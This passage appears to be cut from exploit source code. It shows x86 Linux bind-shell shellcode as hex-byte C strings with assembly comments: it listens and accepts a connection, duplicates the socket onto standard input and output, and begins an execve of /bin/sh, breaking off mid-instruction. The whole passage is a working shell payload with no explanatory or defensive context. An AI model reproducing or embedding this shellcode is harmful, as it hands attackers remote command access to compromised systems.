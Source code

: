 "\xc6\x41\x08\x10"                      /* movb   $0x10,0x8(%ecx)       */

"\x89\x49\x04"                          /* movl   %ecx,0x4(%ecx)        */

"\x80\x41\x04\x0c"                      /* addb   $0xc,0x4(%ecx)        */

"\x88\x01"                              /* movb   %al,(%ecx)            */

"\xb0\x66"                              /* movb   $0x66,%al             */

"\xcd\x80"                              /* int    $0x80                 */

/* ------------------------------------ listen(sd,blah); -------------- */

"\xb3\x04"                              /* movb   $0x4,%bl              */

"\xb0\x66"                              /* movb   $0x66,%al             */

"\xcd\x80"                              /* int    $0x80                 */

/* ------------------------------------ accept(sd,0,16); -------------- */

"\xb3\x05"                              /* movb   $0x5,%bl              */

"\x30\xc0"                              /* xorb   %al,%al               */

"\x88\x41\x04"                          /* movb   %al,0x4(%ecx)         */

"\xb0\x66"                              /* movb   $0x66,%al             */

"\xcd\x80"                              /* int    $0x80                 */

/* ------------------------------------ dup2(cd,0); ------------------- */

"\x89\xce"                              /* movl   %ecx,%esi             */

"\x88\xc3"                              /* movb   %al,%bl               */

"\x31\xc9"                              /* xorl   %ecx,%ecx             */

"\xb0\x3f"                              /* movb   $0x3f,%al             */

"\xcd\x80"                              /* int    $0x80                 */

/* ------------------------------------ dup2(cd,1); ------------------- */

"\xfe\xc1"                              /* incb   %cl                   */

"\xb0\x3f"                              /* movb   $0x3f,%al             */

"\xcd\x80"                              /* int    $0x80                 */

/* ------------------------------------ dup2(cd,2); ------------------- */

"\xfe\xc1"                              /* incb   %cl                   */

"\xb0\x3f"                              /* movb   $0x3f,%al             */

"\xcd\x80"                              /* int    $0x80                 */

/* ------------------------------------ execve("/bin/sh",argv,0); ----- */

"\xc7\x06\x2f\x62\x69\x6e"              /* movl   $0x6e69622f,(%esi)    */

"\xc7\x46\x04\x2f\x73\x68\x41"          /* movl   $0x4168732f,0x4(%esi) */
